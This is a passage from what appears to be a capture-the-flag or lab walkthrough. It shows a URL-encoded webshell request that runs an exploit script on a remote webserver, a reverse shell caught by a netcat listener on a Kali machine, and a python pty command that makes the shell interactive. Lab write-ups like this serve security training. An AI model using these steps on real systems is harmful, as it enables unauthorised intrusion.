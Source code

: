     (Replace `10.0.0.0` with the IP address allocated to the Kali machine for your challenge)

    This results in the following script being created on the remote webserver:
    
    <img src="./img/i01-image7.png" width="1000px">

    c. Execute the following command in the webshell:

    ```
    ?cmd=%2Fbin%2Fbash %2E%2fexploit%2Esh
    ```
    
    This results in the terminal window where the `netcat` listener was started picking up a connection, giving us a reverse shell:

    <img src="./img/i01-image8.png" width="700px">

    d. Execute the following command to make it fully interactive:

    ```
    $ python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```

